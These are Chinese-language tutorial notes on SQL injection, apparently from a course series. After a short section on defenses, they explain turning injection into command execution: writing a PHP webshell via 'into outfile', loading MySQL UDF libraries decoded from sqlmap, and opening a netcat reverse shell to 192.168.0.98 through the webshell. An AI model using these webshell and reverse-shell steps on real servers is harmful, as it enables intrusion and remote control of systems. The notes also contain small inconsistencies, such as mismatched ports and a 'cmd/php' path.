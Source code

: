## 防御

1. 代码与数据分离：**预编译**（最推荐的方式，来自前后端的攻击皆可防御）
2. 禁止用户账号出现特殊符号，或转义

---


# 40. SQL注入实战：命令执行

## 一、写webshell

注意`into outfile`的联合查询的**列数**也要和原来的一致

**文件已存在**的话再写会报错

`Errcode: 13`意为mysql用户没有该目录的**权限**

## 二、UDF

UDF文件获取：

* [github.com/mysqludf/lib_mysqludf_sys](github.com/mysqludf/lib_mysqludf_sys)

* sqlmap/data/udf/mysql/

sqlmap下的文件经过编码，需要使用sqlmap/extra/cloak目录下的cloak.py进行解码

```sh
python cloak.py -d -i /Users/apple/workplace/sqlmap/data/udf/mysql/linux/64/lib_mysqludf_sys.so_ -o lib_linux.so
```

---


# 41. SQL注入实战：webshell类型命令执行与交互

## 反弹shell

### 客户端：

```sh
nc -l 8888
```

**监听**8888端口

### 服务端：

1. `into outfile`写入一句话`system($_GET['cmd']`到images/cmd.php
2. 在浏览器访问domain/images/cmd/php?cmd=nc -e /bin/bash 192.168.0.98 333，使服务器**连接**客户端192.168.0.98的端口333，连接成功后执行`/bin/bash`

---